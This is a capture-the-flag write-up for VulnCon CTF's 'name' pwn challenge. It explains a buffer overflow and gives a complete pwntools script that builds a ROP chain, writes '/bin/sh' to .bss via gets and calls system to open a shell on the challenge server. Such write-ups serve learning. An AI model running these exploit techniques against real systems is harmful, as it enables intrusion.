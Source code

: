## VulnCon CTF: name [pwn]
![](name_desc.png)

#### For this challenge, we had to pass a simple check in order to control the return address. Also, because of the system(echo) call when printing the prompt, it kinda serves as an anti-debug of some sorts. I was able to learn how to use `set follow-fork-mode parent` to debug it which was pretty nice. The approach was simple, to get a second user input, store it into the .bss section and use it as an argument to system.

```python
from pwn import *

#p = process('./name')
binary = ELF('./name', checksec = False)
breakpoints = ['set follow-fork-mode parent', 'break *0x4007cc']
#gdb.attach(p.pid, gdbscript = '\n'.join(breakpoints))
p = remote("13.233.134.24", 49153)

#:
print(p.recvuntil('name: '))
exploit = 'w3lc0m3'
exploit += '\x00'
exploit += cyclic(128)
exploit += p64(0x0000000000400833) #: pop rdi ; ret
exploit += p64(0x601000) #: .bss
exploit += p64(binary.symbols['gets'])
exploit += p64(0x0000000000400833) #: pop rdi ; ret
exploit += p64(0x601000) #: .bss
exploit += p64(binary.symbols['system'])
p.sendline(exploit)
p.sendline('/bin/sh\x00')
p.interactive()
```

![](name_shell.png)